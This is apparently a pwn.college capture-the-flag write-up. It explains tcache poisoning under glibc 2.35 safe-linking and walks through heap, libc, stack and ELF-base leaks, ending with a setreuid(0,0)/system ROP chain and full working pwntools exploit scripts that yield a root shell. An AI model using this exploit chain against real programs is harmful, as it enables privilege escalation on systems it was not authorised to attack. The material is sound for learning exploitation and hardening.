

Heap Exploitation — Tcache Poison to RCE
Overview
A pwn.college challenge on dynamic allocator misuse — specifically tcache poisoning under glibc 2.35's safe-linking mitigation. The challenge ships in two variants (easy and hard) that share the same core binary; the difference between them is a single output byte, which I'll cover at the end.
Coming in from the previous challenge in the series, I assumed the binary was structurally identical — same primitives, same interface. That was correct. What changed is the objective: no win function, no chunk that reads the flag. The server expects a privileged shell, which means leaking everything and writing a payload to the stack.
Environment Setup
The binary is dynamically linked against the server's libc — a different version than
whatever is installed locally. This matters because every hardcoded offset in the exploit
(arena pointer distance to libc base, libc.environ offset, gadget addresses)
is specific to that exact libc build. Running against the wrong one means the offsets are
wrong, the leaks are misinterpreted, and the exploit fails silently on the remote even
if it appears to work locally.
The fix is to pull the server's libc and loader and patch the binary to use them:
# Pull the binary, libc, and loader from the remote dojo
scp hacker@dojo.pwn.college:/challenge/<binary> .
scp hacker@dojo.pwn.college:/lib/x86_64-linux-gnu/libc.so.6 .
scp hacker@dojo.pwn.college:/lib64/ld-linux-x86-64.so.2 .
# Patch the binary's interpreter and rpath to use the local copies
patchelf --set-interpreter ./ld-linux-x86-64.so.2 <binary>
patchelf --set-rpath . <binary>After patching, the binary runs locally against the exact libc from the server. Any offset derived in GDB is valid on the remote — no surprises at submission time. Confirm the version before doing anything else:
strings libc.so.6 | grep "GNU"assets/img/writeups/heap-tcache-poison-rce/libc-version.png — terminal output of strings libc.so.6 | grep "GNU" showing glibc 2.35
Recon
Checksec
pwndbg> checksec
File: <binary>
Arch: amd64
RELRO: Full RELRO
Stack: Canary found
NX: NX enabled
PIE: PIE enabled
SHSTK: Enabled
IBT: Enabled
Stripped: NoFull RELRO rules out a GOT overwrite. Stack canary rules out a direct stack smash. NX rules out shellcode. PIE randomizes all binary addresses at load time. SHSTK and IBT are Intel CET shadow-stack mitigations — relevant to note, but they don't interfere with a heap-based attack that targets the stack. Not stripped means symbols are intact, which helps when computing libc offsets.
Reverse Engineering
Understanding the Binary
The binary is a custom heap allocator harness — a controlled sandbox where you interact
with glibc's allocator through a text-based command interface over stdin.
There are no helper functions; everything lives inside a single main.
Two arrays are allocated on the stack at startup and zero-initialised:
void *chunks[16]; // pointers to allocated heap regions
ulong chunk_sizes[16]; // stored sizes — not what you'd expect
Every operation takes an index into these arrays. The index is bounds-checked against
15 with __assert_fail, so the slot space is fixed at 16 entries.
There is no win function and no code path that reads a flag — the only exit is
quit, which returns from main. The objective is a shell.
assets/img/writeups/heap-tcache-poison-rce/ghidra-overview.png — Ghidra decompiler showing the top of main(): the two array declarations (chunks, chunk_sizes) and the start of the dispatch loop
Command Handlers
The main loop reads a command string via scanf and dispatches through
a chain of strcmp comparisons. Five commands are supported:
malloc <idx> <size> — calls malloc(size),
stores the pointer in chunks[idx], and stores the size in
chunk_sizes[idx]. Straightforward.
assets/img/writeups/heap-tcache-poison-rce/ghidra-malloc.png — Ghidra decompiler showing the malloc handler: malloc() call, chunks[idx] assignment, chunk_sizes[idx] assignment
free <idx> — calls free(chunks[idx]) and
zeroes the pointer slot. No UAF here — the pointer is cleared after free.
assets/img/writeups/heap-tcache-poison-rce/ghidra-free.png — Ghidra decompiler showing the free handler
safe_read <idx> — reads from stdin directly into
chunks[idx] using read(0, chunks[idx], chunk_sizes[idx]).
The size used is whatever is stored in chunk_sizes[idx].
assets/img/writeups/heap-tcache-poison-rce/ghidra-safe-read.png — Ghidra decompiler showing the safe_read handler with the read() call and chunk_sizes[idx] as the length
safe_write <idx> — writes chunk_sizes[idx] bytes
from chunks[idx] to stdout via fwrite, then writes one
trailing byte, then flushes. The trailing byte is what differs between the easy and
hard variants.
assets/img/writeups/heap-tcache-poison-rce/ghidra-safe-write.png — Ghidra decompiler showing the safe_write handler: both fwrite() calls and the trailing byte comment
quit — exits the loop and returns from main.
This is the trigger for any payload written to the return address.
Spotting the Primitive
Going back to the malloc handler — this line stands out:
chunk_sizes[idx] = (ulong)(size + 0x10);
The stored size is not the allocation size. It is the allocation size
plus 16 bytes. That extra 0x10 is exactly the size of a glibc chunk header
(prev_size + chunk_size fields). Since
safe_read and safe_write use chunk_sizes[idx]
as their byte count, every read and every write silently crosses the chunk boundary
by 0x10 bytes into the next contiguous chunk's metadata.
On a 24-byte allocation, those 0x10 bytes reach the next chunk's
prev_size, chunk_size, and — critically — its
fd pointer. Controlling fd on a freed tcache chunk is the
tcache poison primitive.

Confirming with pwndbg
Before building the exploit, I confirmed the primitive dynamically. Allocating two
adjacent 24-byte chunks, then calling safe_write on chunk 0, the output
is 40 bytes — 24 bytes of chunk 0 data followed by 16 bytes that belong to chunk 1's
header. The over-read crosses the boundary exactly as expected.
Conversely, writing 40 bytes via safe_read into chunk 0 lets me overwrite
chunk 1's prev_size, chunk_size, and fd —
memory I have no business touching based on the allocation.
assets/img/writeups/heap-tcache-poison-rce/pwndbg-overflow-proof.png — pwndbg showing two adjacent chunks in memory (x/8gx or vis), then after safe_read on chunk 0 the output visibly overwrites chunk 1's header fields
Exploit Plan
With no direct target and full mitigations enabled, the path to a shell requires building four leaks in sequence — each one unlocking the next — then writing a privilege-escalating payload to the stack:
- Heap leak — from the mangled tcache
fdof a freed chunk - Libc leak — from the unsorted bin
fdof a large freed chunk - Stack leak — via tcache poison to
libc.environ - ELF base leak — from the saved return address on
main's stack frame - Shell —
setreuid(0, 0)+system("/bin/sh")written to the stack
The obvious first thought for a tcache poison target is __malloc_hook or
__free_hook — one-shot arbitrary execution. Both were removed in glibc 2.34.
With those gone, the cleanest path is pivoting through the stack: leak a stack address
via libc.environ, then poison tcache a second time to write directly to
main's return address.
Phase 1 — Heap Leak
Glibc 2.32 introduced safe-linking: when a chunk is freed into the tcache, its
fd pointer is stored as fd = (chunk_addr >> 12) ^ next_ptr.
For the first freed chunk in an empty bin, next_ptr is NULL, so
fd is just chunk_addr >> 12 — a recoverable heap address.
Reading it back after a malloc/free/malloc cycle leaks the heap base.
# Chunks 0 and 1 are allocated early — they'll be used as the overflow source later
io.sendline(b"malloc 0 24")
io.sendline(b"malloc 1 24")
# malloc 2, free it (fd gets set to heap_addr >> 12), reallocate (fd remains in data)
io.sendline(b"malloc 2 24")
io.sendline(b"free 2")
io.sendline(b"malloc 2 24")
io.sendline(b"safe_write 2")
leak = io.recv(8)
heap_base = u64(leak) << 12 # undo the right-shift[+] heap_base: 0x55f8a2400000
With the heap base known, we can compute the safe-linking key used in future
tcache poison steps: key = heap_base >> 12.
Phase 2 — Libc Leak
Chunks larger than 0x400 bytes bypass the tcache entirely and go to the unsorted bin
when freed. The unsorted bin's fd points directly into main_arena
inside libc — a real libc address, readable with the same safe_write trick.
One detail that matters: before freeing the large chunk, allocate a small guard chunk between it and the top chunk. Without it, glibc coalesces the freed large chunk back into the top chunk instead of putting it in the unsorted bin, and there's nothing to read.
io.sendline(b"malloc 10 1048") # large chunk — goes to unsorted bin on free
io.sendline(b"malloc 3 24") # guard chunk — blocks coalescing with top chunk
io.sendline(b"free 10")
io.sendline(b"malloc 10 1048") # reallocate — unsorted bin fd is now in the data region
io.sendline(b"safe_write 10")
leak = io.recv(8)
libc.address = u64(leak) - 0x219ce0 # known offset from arena pointer to libc base[+] libc address: 0x7f3c8a200000
[+] libc.environ: 0x7f3c8a419e40
With libc resolved, libc.environ — the address of the environment
pointer on the stack — is now a concrete target for the next poison.
Phase 3 — Stack Leak via Tcache Poison
libc.environ holds a pointer into the process's environment block,
which lives on the stack in a fixed relationship to main's return address.
If we can allocate a chunk there and read it, we get a stack address and can compute
the return address offset from it via backtrace inspection in GDB.
To forge an allocation at an arbitrary address, we overwrite the fd pointer
of a freed tcache chunk with the mangled target:
mangled = target ^ (heap_base >> 12). The next two allocations of
the same size return first the poisoned chunk, then the forged address.
# Free chunks 2 and 1 — order matters: 1 must be freed last so it's at the tcache head
io.sendline(b"free 2")
io.sendline(b"free 1")
key = heap_base >> 12
mangled = libc.sym.environ ^ key
# Overflow from chunk 0 into chunk 1's fd pointer
payload = flat(
p64(0x22) * 3, # fill chunk 0 data (24 bytes) + overflow chunk 1's prev_size
p64(0x21), # keep chunk 1's size field valid
p64(mangled), # overwrite chunk 1's fd -> libc.environ
)
io.sendline(b"safe_read 0")
io.send(payload)
io.sendline(b"malloc 1 24") # pops chunk 1 from tcache head
io.sendline(b"malloc 2 24") # tcache now serves the forged pointer: libc.environ
io.sendline(b"safe_write 2")
stack_address = u64(io.recv(8))
ret_address = stack_address - 0x120[+] stack_address (environ): 0x7ffe928bf5a8
[+] ret_address: 0x7ffe928bf488
The offset -0x120 was determined by comparing libc.environ
against the return address shown in GDB's backtrace.
Writing directly to ret_address turned out to be misaligned — the chunk
data would start mid-payload. Targeting rbp instead (8 bytes before
ret) aligns the write perfectly: p64(0x0) lands on the saved
rbp, and the payload chain starts exactly at the return address.
rbp_address = ret_address - 0x8Verifying the poison in pwndbg
Before running the full exploit, I confirmed the primitive works as expected by pausing in GDB just before and after the tcache overwrite.
Heap layout before the overflow — vis shows chunk 0 and chunk 1
side by side, both intact, chunk 1's fd pointing normally into the tcache bin:
assets/img/writeups/heap-tcache-poison-rce/vis-before-overflow.png — pwndbg vis, chunk 0 and chunk 1 intact, chunk 1 fd pointing normally into tcache bin
After writing the payload via safe_read 0 — vis again.
Chunk 0's data is filled, and chunk 1's fd now holds the mangled pointer to
libc.environ. This is the write we should not be able to do based on the
allocation size alone:
assets/img/writeups/heap-tcache-poison-rce/vis-after-overflow.png — pwndbg vis, chunk 1 fd overwritten with mangled libc.environ pointer
Tcache bin before and after — tcache shows where the next
allocation of this size class will land. Before the overflow it points to a valid heap
address; after it points into libc:
assets/img/writeups/heap-tcache-poison-rce/tcache-before-overflow.png — pwndbg tcache, fd is a normal heap address
assets/img/writeups/heap-tcache-poison-rce/tcache-after-overflow.png — pwndbg tcache, fd now points to libc.environ (demangled)
Confirming libc.environ holds a stack address — first,
vmmap shows the stack region so we know what a stack address looks like.
Then telescope <libc.environ address> reads from that address and
shows a pointer into the stack region — the value we're about to leak:
assets/img/writeups/heap-tcache-poison-rce/vmmap-stack.png — pwndbg vmmap with the stack segment highlighted
assets/img/writeups/heap-tcache-poison-rce/telescope-environ.png — pwndbg telescope at libc.environ address showing the stack pointer value
The address of libc.environ is simply libc_base + offset,
where the offset is resolved after the libc leak:
pwndbg> p &environ
$1 = 0x7f3c8a419e40
pwndbg> p 0x7f3c8a419e40 - 0x7f3c8a200000
$2 = 0x219e40
In the script this is just libc.sym.environ once libc.address
is set — pwntools resolves the offset from the symbol table automatically.
Phase 4 — ELF Base Leak
This phase applies the same tcache poison technique as Phase 3 — vis and
tcache in pwndbg confirm the same overwrite pattern, now targeting
rbp_address on the stack instead of libc.environ.
Before writing the final payload, I poisoned the tcache a second time to allocate at
rbp_address and read the stack frame contents. At rbp + 0x18
sits the saved return address back into main — a binary address that,
minus a static offset found by disassembly, gives the ELF base and validates
that PIE randomization is correctly accounted for.
# Fresh set of chunks at size 72 for the second poison
io.sendline(b"malloc 0 72")
io.sendline(b"malloc 1 72")
io.sendline(b"malloc 2 72")
io.sendline(b"free 2")
io.sendline(b"free 1")
mangled = rbp_address ^ key
payload = flat(
p64(0x22) * 9, # fill chunk 0 (72 bytes)
p64(0x51), # keep chunk 1's size field valid (0x50 + prev_inuse)
p64(mangled), # overwrite chunk 1's fd -> rbp_address
)
io.sendline(b"safe_read 0")
io.send(payload)
io.sendline(b"malloc 1 72")
io.sendline(b"malloc 2 72") # lands at rbp_address
io.sendline(b"safe_write 2")
io.recv(8 * 3) # skip: saved rbp, saved rsp, __libc_start_call_main return stub
leak = io.recv(8)
main_address = u64(leak)
elf.address = main_address - 0x1957[+] main_address: 0x55f8a1601957
[+] elf.address: 0x55f8a1600000
[+] libc system: 0x7f3c8a248d60Worth noting: all gadgets for the final payload come from libc, not the binary, so the ELF base itself isn't strictly needed to execute the shell. It's useful for offset validation and as a sanity check that the whole chain is consistent before committing the final write.
Phase 5 — Privilege Escalation
The binary runs as a privileged user on the server. Calling system("/bin/sh")
alone spawns a shell under the original UID — not root. The fix is prepending a
setreuid(0, 0) call to set both real and effective UIDs to 0 before
executing the shell.
Pwntools' ROP(libc) searches the loaded libc for gadgets automatically —
not just the binary. Since the binary is largely devoid of useful gadgets, pointing
pwntools at the libc object (already rebased after the leak) gives direct access to
pop rdi, pop rsi, and everything else needed.
rop = ROP(libc)
rop.raw(rop.rdi)
rop.raw(0) # ruid = 0
rop.raw(rop.rsi)
rop.raw(0) # euid = 0
rop.raw(libc.sym.setreuid)
rop.raw(rop.rdi)
rop.raw(next(libc.search(b'/bin/sh')))
rop.raw(libc.sym.system)
# chunk 2 is already at rbp_address — write null rbp + chain
io.sendline(b"safe_read 2")
io.send(p64(0x0) + rop.chain())
# trigger: main() returns, walks the chain
io.sendline(b"quit")[*] Switching to interactive mode
$ id
uid=0(root) gid=0(root) groups=0(root)Hard Variant
There are two differences between easy and hard. The first is structural: the easy version prints helper leak values directly in its output (addresses handed to you in plaintext). The hard version removes those. I deliberately ignored the easy leaks entirely and built the exploit from scratch without relying on them — otherwise the easy exploit simply wouldn't port to hard, and I'd have to redo the whole thing. By treating both the same from the start, adapting to hard required almost no changes.
The second difference is a single output byte: safe_write in the easy
version terminates its output with )\n (\x29\x0a); the hard
version uses \n (\x20\x0a). Every recvuntil
call before reading a leak needed to match that terminator.
# easy
io.recvuntil(b"\x29\x0a")
# hard
io.recvuntil(b"\x20\x0a")
The exploit hung on the first leak — recvuntil never found its pattern
and blocked indefinitely. Dumping the raw bytes from the socket made the mismatch
immediately obvious.
Full Scripts
Easy
#!/usr/bin/python3
from pwn import *
elf = context.binary = ELF("./tcache-terror-easy")
libc = ELF(b"/challenge/lib/libc.so.6")
context.log_level = 'debug'
def start():
if args.GDB:
io = process(elf.path)
print(f"[+] Process started with PID: {io.pid}")
print(f"[+] In another SSH session, run:")
print(f" gdb-pwndbg -p {io.pid}")
input("[*] Press Enter to continue after attaching GDB...")
return io
else:
return process(elf.path)
io = start()
io.recvuntil(b"[*] Function (malloc/free/safe_write/safe_read/quit): ")
io.sendline(b"malloc 0 24")
io.recvuntil(b"[*] Function (malloc/free/safe_write/safe_read/quit): ")
io.sendline(b"malloc 1 24")
# leak heap
io.recvuntil(b"[*] Function (malloc/free/safe_write/safe_read/quit): ")
io.sendline(b"malloc 2 24")
io.recvuntil(b"[*] Function (malloc/free/safe_write/safe_read/quit): ")
io.sendline(b"free 2")
io.recvuntil(b"[*] Function (malloc/free/safe_write/safe_read/quit): ")
io.sendline(b"malloc 2 24")
io.recvuntil(b"[*] Function (malloc/free/safe_write/safe_read/quit): ")
io.sendline(b"safe_write 2")
io.recvuntil(b"\x29\x0a")
leak = io.recv(8)
heap_base = u64(leak) << 12
log.success(f"heap_base: {hex(heap_base)}")
# leak libc
io.recvuntil(b"[*] Function (malloc/free/safe_write/safe_read/quit): ")
io.sendline(b"malloc 10 1048")
io.recvuntil(b"[*] Function (malloc/free/safe_write/safe_read/quit): ")
io.sendline(b"malloc 3 24")
io.recvuntil(b"[*] Function (malloc/free/safe_write/safe_read/quit): ")
io.sendline(b"free 10")
io.recvuntil(b"[*] Function (malloc/free/safe_write/safe_read/quit): ")
io.sendline(b"malloc 10 1048")
io.recvuntil(b"[*] Function (malloc/free/safe_write/safe_read/quit): ")
io.sendline(b"safe_write 10")
io.recvuntil(b"\x29\x0a")
leak = io.recv(8)
libc.address = u64(leak) - 0x219ce0
log.success(f"libc address: {hex(libc.address)}")
io.recvuntil(b"[*] Function (malloc/free/safe_write/safe_read/quit): ")
io.sendline(b"free 2")
io.recvuntil(b"[*] Function (malloc/free/safe_write/safe_read/quit): ")
io.sendline(b"free 1")
# leak stack via tcache poison to libc.environ
key = heap_base >> 12
mangled = libc.sym.environ ^ key
payload = flat(p64(0x22) * 3, p64(0x21), p64(mangled))
io.recvuntil(b"[*] Function (malloc/free/safe_write/safe_read/quit): ")
io.sendline(b"safe_read 0")
io.send(payload)
io.recvuntil(b"[*] Function (malloc/free/safe_write/safe_read/quit): ")
io.sendline(b"malloc 1 24")
io.recvuntil(b"[*] Function (malloc/free/safe_write/safe_read/quit): ")
io.sendline(b"malloc 2 24")
io.recvuntil(b"[*] Function (malloc/free/safe_write/safe_read/quit): ")
io.sendline(b"safe_write 2")
io.recvuntil(b"\x29\x0a")
leak = io.recv(8)
stack_address = u64(leak)
ret_address = stack_address - 0x120
rbp_address = ret_address - 0x8
log.success(f"stack_address: {hex(stack_address)}")
log.success(f"rbp_address: {hex(rbp_address)}")
# leak elf base via saved return address on main's stack frame
io.recvuntil(b"[*] Function (malloc/free/safe_write/safe_read/quit): ")
io.sendline(b"malloc 0 72")
io.recvuntil(b"[*] Function (malloc/free/safe_write/safe_read/quit): ")
io.sendline(b"malloc 1 72")
io.recvuntil(b"[*] Function (malloc/free/safe_write/safe_read/quit): ")
io.sendline(b"malloc 2 72")
io.recvuntil(b"[*] Function (malloc/free/safe_write/safe_read/quit): ")
io.sendline(b"free 2")
io.recvuntil(b"[*] Function (malloc/free/safe_write/safe_read/quit): ")
io.sendline(b"free 1")
mangled = rbp_address ^ key
payload = flat(p64(0x22) * 9, p64(0x51), p64(mangled))
io.recvuntil(b"[*] Function (malloc/free/safe_write/safe_read/quit): ")
io.sendline(b"safe_read 0")
io.send(payload)
io.recvuntil(b"[*] Function (malloc/free/safe_write/safe_read/quit): ")
io.sendline(b"malloc 1 72")
io.recvuntil(b"[*] Function (malloc/free/safe_write/safe_read/quit): ")
io.sendline(b"malloc 2 72")
io.recvuntil(b"[*] Function (malloc/free/safe_write/safe_read/quit): ")
io.sendline(b"safe_write 2")
io.recvuntil(b"\x29\x0a")
io.recv(8 * 3)
leak = io.recv(8)
main_address = u64(leak)
elf.address = main_address - 0x1957
log.success(f"elf.address: {hex(elf.address)}")
# setreuid(0,0) + system("/bin/sh") via libc gadgets
rop = ROP(libc)
rop.raw(rop.rdi); rop.raw(0)
rop.raw(rop.rsi); rop.raw(0)
rop.raw(libc.sym.setreuid)
rop.raw(rop.rdi)
rop.raw(next(libc.search(b'/bin/sh')))
rop.raw(libc.sym.system)
io.recvuntil(b"[*] Function (malloc/free/safe_write/safe_read/quit): ")
io.sendline(b"safe_read 2")
io.send(p64(0x0) + rop.chain())
io.recvuntil(b"[*] Function (malloc/free/safe_write/safe_read/quit): ")
io.sendline(b"quit")
io.interactive()Hard (diff from easy)
# Replace every occurrence of:
io.recvuntil(b"\x29\x0a")
# with:
io.recvuntil(b"\x20\x0a")